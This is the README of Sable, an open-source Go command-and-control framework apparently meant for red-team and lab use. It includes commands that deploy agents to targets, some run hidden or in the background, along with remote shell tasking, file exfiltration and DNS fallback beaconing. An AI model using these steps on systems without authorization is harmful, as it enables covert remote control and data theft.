






<h1 align="center">Sable</h1>

<p align="center">
  Open source C2
</p>

<p align="center">
  Go | HTTPS + DNS transports | Web UI + CLI
</p>

Sable is a C2 written in Go. The server takes encrypted beacons from agents over HTTPS, with DNS as a fallback, and exposes a browser console and an interactive CLI for tasking.

---

## Authorized Use

Sable is intended for educational use, controlled labs, CTFs, owned systems, and engagements where you hold written authorization. Do not deploy it against systems you do not own or do not have explicit permission to test. The author accepts no responsibility for misuse.

---

## Architecture



Each beacon is AES-256-GCM with an HKDF-derived key, then HMAC-SHA256'd over the agent ID and ciphertext (encrypt-then-MAC). Binding the agent ID into the MAC prevents cross-agent impersonation. A nonce cache rejects replays; the server drops anything outside a ±2 minute timestamp window.

### Network Ports

| Port | Bind | Purpose |
|------|------|---------|
| `443/tcp` | all interfaces | Agent HTTPS beacon listener. Needs root / admin to bind. |
| `8443/tcp` | `127.0.0.1` only | Operator web UI and REST API. Tunnel over SSH for remote access. |
| `53/udp` | all interfaces | Optional DNS beacon listener. Off unless the server is launched with `--dns-domain`, `SABLE_DNS_DOMAIN`, or `DNS_DOMAIN`. |

---

## Prerequisites

- Go 1.26.2 or later (matches `go.mod`)
- `make` (Linux, macOS, or Windows; PowerShell or cmd)
- Root / admin on the server host if binding `443` (and `53` when DNS fallback is on)

Agents cross-compile through `GOOS`/`GOARCH`, so you can build from any host OS.

---

## Quick Start

### 1. Clone

```sh
git clone https://github.com/aelder202/sable
cd sable
```

Modules pull on the first build. Run `go mod download` if you want to pre-warm the cache.

### 2. Generate identity and certificate

`make setup` writes `config.env` (agent ID, shared secret, server URL, label) and `server.crt` / `server.key`.

```sh
make setup SERVER_URL=https://<your-server-ip>:443
```

`SERVER_URL` is the address agents will beacon to, not the operator UI.

```text
[+] Setup complete! (label: main)
    config.env  - agent ID, secret, cert fingerprint, server URL, label
    server.crt  - TLS certificate
    server.key  - TLS private key

[*] Next: make build
```

`config.env`, `server.crt`, and `server.key` are gitignored. Keep them off shared storage.

### 3. Build

```sh
make build
```

Builds the server (`sable-server` or `.exe`) for the host OS plus a Linux agent at `builds/main/agent-linux`. For a Windows server binary from a non-Windows host, use `make build-windows-server`.

### 4. Start the server

Keep the server binary, `server.crt`, and `server.key` in the same directory. Use a password file to keep the operator password out of shell history.

**Linux / macOS**

```sh
printf '%s' 'yourpassword' > ./pw.txt
chmod 600 ./pw.txt
./sable-server --password-file ./pw.txt
```

**Windows (PowerShell)**

```powershell
Set-Content -Encoding ascii -NoNewline .\pw.txt "yourpassword"
.\sable-server.exe --password-file .\pw.txt
```

`SABLE_OPERATOR_PASSWORD` and stdin both work too.

The server prints its TLS fingerprint and listener status:

```text
[*] TLS cert fingerprint (SHA-256): 3a1f...b9c4
[*] Operator API on https://127.0.0.1:8443 | Agent listener on :443
```

The fingerprint is already baked into the agent binary because `make setup` runs before compile.

The operator API binds to loopback only. Reach it on the server host directly, or tunnel:

```sh
ssh -L 8443:127.0.0.1:8443 user@sable-host
```

### 5. Register the first agent

With the server running:

```sh
make register PASSWORD=yourpassword
# [+] Agent registered: f47ac10b-58cc-4372-a567-0e02b2c3d479
```

`make register` reads from `config.env` and POSTs to `https://127.0.0.1:8443`, so run it on the server host. Through an SSH tunnel or a different loopback port, use the CLI with `--api` or hit the REST API directly.

### 6. Deploy the agent

Linux:

```sh
scp builds/main/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

Windows:

```powershell
make build-agent-windows
Copy-Item .\builds\main\agent.exe C:\Temp\agent.exe
Start-Process -FilePath C:\Temp\agent.exe -WindowStyle Hidden
```

The agent shows up in the console within one beacon interval.

### 7. Open the console

`https://127.0.0.1:8443` on the server host (or through the tunnel). Accept the self-signed cert and log in with the operator password.


After login the console lists registered sessions, last-seen status, and the task composer.


---

## Operator Interfaces

### Web UI

Sessions live in the left sidebar. Anything quiet for 3–10 minutes goes yellow; past 10 minutes goes red. Hover for the exact last-seen timestamp. Press `/` to focus the filter.

**Console keys**

- **Enter** / **Send**: queue the task
- **↑ / ↓**: command history
- **Ctrl/Cmd + K**: focus the task input
- **Esc**: cancel an upload prompt or kill confirmation
- **Clear**: wipe output and reset deduplication
- **Jump To Latest**: resume the live tail after scrolling up

#### Shell

Type `shell <command>` (or just type, with the `Shell` task type selected) and queue it.



Output is captured to 512 KB; the command runs under a 60-second deadline. For state that persists across commands (`cd`, environment variables, `source`), use interactive mode.

#### Interactive shell

Select **Interactive** in the composer to bring up `/bin/sh` (Linux) or `cmd.exe` (Windows), bound to the agent for the life of the session.



The agent flips to a 100 ms beacon interval while interactive mode is on. Output streams over SSE as fast as each beacon round-trips. The console border turns green and the prompt picks up the agent hostname. Input stays locked with `waiting for agent...` until the agent confirms it is in fast-beacon mode.

`exit`, `quit`, or the **Exit** button drops back to normal mode.

The shell runs over pipes, not a PTY. Anything that needs a real TTY (`vim`, `top`, `sudo` with a password prompt) will misbehave. A command that runs silently for 60+ seconds (`sleep 9999`) trips the timeout and respawns the shell.

#### Download

`download <path>`. The composer prepares a remote path browser as soon as the session is online and keeps it ready while the agent stays online.



Type a partial path for live suggestions: click a directory to keep browsing, the `...` row to go up, or a file to fill the final path.



The agent reads the file, base64-encodes it, and the browser auto-decodes and saves it. Practical limit is roughly 38 KB (single-beacon delivery, capped by the 64 KB encrypted beacon body). Larger files would need chunked delivery; Sable does not implement that today.

#### Upload

Click **Upload** or drag a file onto the output area. Enter the remote destination path when prompted.



Uploads cap at roughly 36 KB, so the base64 payload fits inside the 48 KB task envelope.

#### Kill safety

Queueing `kill` requires a second confirmation click. There is no undo.

### CLI

The server has to be running first. Open another terminal on the same host:

```sh
./sable-server --cli                  # Linux / macOS
.\sable-server.exe --cli              # Windows
```

For a non-default loopback port or an SSH-tunneled API, point at it explicitly:

```sh
./sable-server --cli --api https://127.0.0.1:9443
```

The CLI is queue-oriented and does not live-stream output or auto-decode downloads. Use the web UI or `GET /api/agents/:id/tasks` to review results.

| Command | Description |
|---------|-------------|
| `agents` | List sessions and last-seen times |
| `register <id> <secret-hex>` | Pre-register an agent |
| `use <agent-id>` | Select a session |
| `shell <command>` | Queue a shell command |
| `download <remote-path>` | Queue a file read |
| `upload <local-path> <remote-path>` | Read a local file, base64-encode, queue an upload |
| `sleep <seconds>` | Change the beacon interval |
| `kill` | Terminate the agent |
| `back` | Return to the main prompt |
| `help` | List all commands |
| `exit` / `quit` | Close the CLI |

---

## More Workflows

### Adding more agents

`make setup` creates the first identity in `config.env`; `make register PASSWORD=...` registers it. Every additional agent uses `make register NEW=1`, which writes a new env file under `agents/<label>.env`.

```sh
make register NEW=1 PASSWORD=yourpassword LABEL=web01
# [+] Registered new agent: web01 (id: 3b2f...)
#     env file: agents/web01.env
#     build linux:   make build-agent-linux   AGENT_ENV=agents/web01.env
#     build windows: make build-agent-windows AGENT_ENV=agents/web01.env
```

Labels must be lowercase with letters, digits, `-`, or `_`. `PC` and `VM` get rejected; use `pc` and `vm`.

To build and ship a `NEW=1` agent:

```sh
make build-agent-linux AGENT_ENV=agents/web01.env
scp builds/web01/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

### Manual registration

The Makefile is the easy path. The CLI works too:

```sh
./sable-server --cli
[sable]> register <agent-id-from-config.env> <secret-hex-from-config.env>
```

Or hit the REST API:

```sh
TOKEN=$(curl -sk -X POST https://127.0.0.1:8443/api/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"password":"yourpassword"}' | jq -r .token)

curl -sk -X POST https://127.0.0.1:8443/api/agents \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d "{\"id\":\"<agent-id>\",\"secret_hex\":\"<secret-hex>\"}"
```

### Rebuilding after changes

```sh
make build
```

Restart the server after rebuilding. Web UI assets are embedded into the binary, so a browser refresh alone will not pick up `web/` changes. If agent code changed, redeploy:

```sh
pkill -f agent && scp builds/main/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

To re-key, delete `config.env`, `server.crt`, and `server.key` and re-run `make setup`.

### Building for other platforms

```sh
make build-agent-linux
make build-agent-windows
make build-server
```

For a target the Makefile does not cover, set `GOOS`/`GOARCH` directly:

```sh
GOOS=darwin GOARCH=arm64 go build \
  -ldflags "-s -w \
    -X 'github.com/aelder202/sable/internal/agent.AgentID=<id>' \
    -X 'github.com/aelder202/sable/internal/agent.SecretHex=<hex>' \
    -X 'github.com/aelder202/sable/internal/agent.ServerURL=<url>' \
    -X 'github.com/aelder202/sable/internal/agent.CertFingerprintHex=<fp>'" \
  -o agent-macos ./cmd/agent
```

Pull the values from `config.env` or `agents/<label>.env`.

### DNS fallback

Optional. Start the server with the authoritative domain agents will use:

```sh
./sable-server --password-file ./pw.txt --dns-domain c2.example.com
```

`SABLE_DNS_DOMAIN=c2.example.com` or `DNS_DOMAIN=c2.example.com` work too. The UDP `:53` listener comes up and accepts beacon queries under that domain.

Build agents with the same domain:

```sh
make build-agent-linux DNS_DOMAIN=c2.example.com
```

The agent tries HTTPS first and falls back to DNS if HTTPS is unreachable. UDP 53 has to be reachable and the NS record needs to point to the Sable server. DNS is fine for check-ins and small responses; uploads should stay on HTTPS.

---

## Task Reference

| Command | Syntax | Notes |
|---------|--------|-------|
| `shell` | `shell <command>` | One-shot in normal mode (`/bin/sh -c` or `cmd /C`). In interactive mode, writes to the persistent shell. 512 KB output cap, 60s timeout. |
| `interactive` | Web UI / API | Open or close a persistent shell on the agent. |
| `download` | `download <remote-path>` | Read a file off the agent. Practical limit ~38 KB (single-beacon delivery). |
| `upload` | `upload <local> <remote>` (CLI) or **Upload** (Web UI) | Push a file to the agent. ~36 KB cap. |
| `pathbrowse` | Web UI Download field | Internal: primes fast beaconing for the path browser. |
| `complete` | Web UI Download field | Internal: lists matching paths under the typed prefix. Extends the fast path-browse window. |
| `sleep` | `sleep <seconds>` | Change beacon interval. Range 1–86400. |
| `kill` | `kill` | Terminate the agent process. Web UI confirms twice. |

---

## REST API

Everything except `/api/auth/login` requires `Authorization: Bearer <jwt>`.

| Method | Path | Notes |
|--------|------|-------|
| `POST` | `/api/auth/login` | `{"password":"..."}` → `{"token":"..."}`. |
| `GET` | `/api/agents` | List agents. |
| `POST` | `/api/agents` | Register. `{"id":"...","secret_hex":"..."}`. `id` is 1–64 alphanumeric+hyphen. |
| `GET` | `/api/agents/:id` | Single agent with task output history. |
| `POST` | `/api/agents/:id/task` | Queue a task. `{"type":"shell","payload":"id"}`. Types: `shell`, `download`, `upload`, `complete`, `pathbrowse`, `sleep`, `kill`, `interactive`. `sleep` takes 1–86400, `kill` takes no payload, `interactive` and `pathbrowse` take `start` or `stop`. |
| `GET` | `/api/agents/:id/tasks` | Output history. |
| `GET` | `/api/agents/:id/terminal/stream` | SSE stream of task output. Used by the web UI for real-time interactive output and path completion. Write deadline is disabled here; everywhere else it is 10s. |

---

## Configuration

### Variables

| Variable | Used by | Notes |
|----------|---------|-------|
| `SERVER_URL` | `make setup`, agent builds | HTTPS URL agents beacon to. Usually `https://<public-ip>:443`. |
| `LABEL` | `make setup`, `make register NEW=1` | Identity / build directory name. |
| `AGENT_ENV` | build + register targets | Env file. Defaults to `config.env`; `agents/<label>.env` for additionals. |
| `AGENT_ID` | agent builds, registration | Identity. Generated by `make setup` or `make register NEW=1`. |
| `AGENT_SECRET_HEX` | agent builds, registration | 32-byte secret as 64 hex chars. |
| `CERT_FP_HEX` | agent builds | SHA-256 of the server cert. Pinned by the agent. |
| `SLEEP_SECONDS` | agent builds | Initial beacon interval. Default `30`. |
| `DNS_DOMAIN` | server + agent builds | DNS fallback domain. Enables `:53` on the server unless `--dns-domain` / `SABLE_DNS_DOMAIN` is used. |
| `SABLE_DNS_DOMAIN` | server | Preferred env var for DNS fallback. |
| `--dns-domain` | server | Flag form. |
| `--debug-addr` | server | Loopback-only pprof endpoint, e.g. `127.0.0.1:6060`. For diagnosing stalls. |
| `NEW` | `make register` | `NEW=1` mints another identity. |
| `PASSWORD` | `make register` | Operator password used by the registration call. |

### Operator password sources

The server reads, in order:

1. `SABLE_OPERATOR_PASSWORD`
2. `C2_OPERATOR_PASSWORD`
3. `--password-file <path>`
4. stdin

Use a password file or env var. Avoid pasting the password into commands that end up in shell history.

---

## Build Targets

| Target | Output | Purpose |
|--------|--------|---------|
| `make setup` | `config.env`, `server.crt`, `server.key` | One-time init. Pass `SERVER_URL`. |
| `make build` | server + Linux agent | Default build for the current host. |
| `make build-windows-server` | `sable-server.exe` + Linux agent | Windows server bundle from a non-Windows host. |
| `make build-server` | server only | Rebuild the server. |
| `make build-agent-linux` | `builds/<label>/agent-linux` | Rebuild the Linux agent. |
| `make build-agent-windows` | `builds/<label>/agent.exe` | Build the Windows agent. |
| `make register` | — | Register the selected agent. `NEW=1` creates a new identity, `LABEL=<name>` controls path names. |
| `make gen-secret` | — | Print a random ID + 32-byte secret. |
| `make test` | — | Unit tests. |
| `make test-integration` | — | Integration tests (`integration` build tag). |

The server binary lands at the repo root. Agent binaries land in `builds/<label>/`. Pass `AGENT_ENV=agents/<label>.env` to target a non-default identity.

---

## Tests

```sh
make test
make test-integration
```

The integration suite is gated behind the `integration` build tag and skipped by `go test ./...`.

---

## Project Layout

```text
cmd/
  server/       - Sable server entry point (listeners + operator API)
  agent/        - agent entry point
internal/
  agent/        - beacon loop, task execution, HTTPS/DNS transports,
                  persistent shell session (shell_session.go)
  agentlabel/   - shared label validation and UUID-prefix fallback
  api/          - operator REST API, JWT auth, middleware,
                  SSE terminal stream (terminal.go)
  cli/          - interactive operator CLI
  crypto/       - AES-256-GCM + HKDF + HMAC primitives
  listener/     - HTTPS and DNS beacon listeners, TLS cert handling
  nonce/        - TTL nonce cache for replay protection
  protocol/     - beacon / task encode + decode
  session/      - in-memory session store with pub/sub for SSE
tools/
  setup/        - generates config.env + cert pair
  register/     - registers an agent via the REST API
  gensecret/    - prints a random agent ID + 32-byte secret
web/            - browser UI (HTML/CSS/JS), embedded into the server binary
agents/         - per-agent env files for additional identities (gitignored)
builds/         - per-agent build artifacts keyed by label (gitignored)
config.env      - generated by `make setup` (gitignored - secrets)
server.crt      - generated by `make setup` (gitignored)
server.key      - generated by `make setup` (gitignored)
```

---

## Security Notes

- Operator API binds to `127.0.0.1:8443` only. Off-host access goes through SSH.
- Agent secrets are excluded from API responses (`json:"-"`).
- Agents pin the server cert by SHA-256 fingerprint. A trusted-CA cert substitution does not help an attacker because the fingerprint check fails first.
- Operator password is hashed with Argon2id (t=3, m=64 MB, p=4). No plaintext storage.
- Nonce replay protection is an atomic check-and-record; no TOCTOU window between concurrent beacons.
- Per-source-IP rate limiting on both transports: 200 HTTPS / 128 DNS requests per 10s window. The HTTPS limit is high because interactive and path-browse modes beacon at 100 ms.
- Agent IDs are restricted to alphanumeric + hyphen at registration. No path traversal, no injection through the ID field.
- Task queues capped at 64 entries per agent; output history capped at 256.
- The SSE stream endpoint disables its write deadline for long-lived connections; a 15s keepalive comment keeps proxies from timing the stream out. Other endpoints enforce the 10s write deadline.
- `config.env`, `server.crt`, `server.key`, `agents/*.env`, password files, and built agent binaries are sensitive. Do not commit them.
- On Unix-like systems: `chmod 600 config.env server.key pw.txt` and `chmod 700 agents`.
- Agents are stripped (`-s -w`), but ldflags string literals (server URL, agent ID, cert fingerprint) remain readable in `.rodata` via `strings`. Treat built agents as sensitive artifacts.

---

## Troubleshooting

| Symptom | Check |
|---------|-------|
| `bind: permission denied` | Run with root / admin, or change the listener ports. |
| `bind: address already in use` | Something else holds `443` or `8443`. Stop it or move ports. |
| Browser warns about the cert | Expected for the self-signed operator UI. Confirm you are hitting `https://127.0.0.1:8443`. |
| Web UI unreachable from another host | Loopback only. Use `ssh -L 8443:127.0.0.1:8443 user@sable-host`. |
| Agent does not appear | Confirm registration, matching `AGENT_ENV`, reachable `SERVER_URL`, correct cert fingerprint. |
| `make register` cannot connect | Run it on the server host with the server up, or hit the REST API through a tunnel. |
| Web UI changes do not show | Rebuild and restart the server. `web/` assets are embedded. |
| Upload rejected | Keep the file under ~36 KB so base64 fits inside the 48 KB task envelope. |
| Download truncated or fails | Single-beacon delivery; files over ~38 KB will not fit. No chunking yet. |
| DNS fallback receives nothing | Confirm `--dns-domain` / `SABLE_DNS_DOMAIN`, UDP 53 reachability, the agent built with the same `DNS_DOMAIN`, and the NS record. |
| Server listening but unresponsive | Restart with `--debug-addr 127.0.0.1:6060`, then capture `http://127.0.0.1:6060/debug/pprof/goroutine?debug=2`. |

---

## License

GPL-3.0. See [LICENSE](LICENSE).
